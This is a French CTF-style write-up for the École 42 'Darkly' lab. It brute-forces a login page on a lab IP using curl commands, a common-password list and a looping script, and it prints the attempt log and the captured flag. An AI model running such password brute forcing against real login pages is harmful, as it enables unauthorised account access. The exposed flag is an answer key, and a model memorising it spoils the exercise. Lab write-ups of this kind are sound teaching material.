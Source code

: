 # Darkly - École 42

## 14. Brute Force - Login

- Sur la page Login `http://10.12.200.47/?page=signin`

- Quand on tape un username et un password on arrive sur :

`http://10.12.200.47/?page=signin&username=uuuuuuuuuu&password=ppppppppppppppppp&Login=Login#`

- On test:

```
curl -s "http://10.12.200.47/?page=signin&username=uuuuuuuuuu&password=ppppppppppppppppp&Login=Login"
curl -s "http://10.12.200.47/?page=signin&username=uuuuuuuuuu&password=ppppppppppppppppp&Login=Login" | grep -i "wrong"
curl -s "http://10.12.200.47/?page=signin&username=uuuuuuuuuu&password=ppppppppppppppppp&Login=Login" | grep -i "flag"
```

- `grep -i` : insensible a la case.

- Un petit script créé avec l'aide de chatgépétouille :

```
clear; chmod 777 ./14-script-login.sh && ./14-script-login.sh
```

- https://nordpass.com/fr/most-common-passwords-list/

- J'ai dabord essaye avec le username `root` (comme dans le fichier `htpasswd`)

```
...
97 http://10.12.200.47/?page=signin&username=admin&password=98765&Login=Login
98 http://10.12.200.47/?page=signin&username=admin&password=q1w2e3r4&Login=Login
99 http://10.12.200.47/?page=signin&username=admin&password=232323&Login=Login
100 http://10.12.200.47/?page=signin&username=admin&password=102030&Login=Login
101 http://10.12.200.47/?page=signin&username=admin&password=12341234&Login=Login
102 http://10.12.200.47/?page=signin&username=admin&password=147258&Login=Login
103 http://10.12.200.47/?page=signin&username=admin&password=shadow&Login=Login
<center><h2 style="margin-top:50px;">The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 </h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>				</div>
```

- 3min27 pour trouver le bon
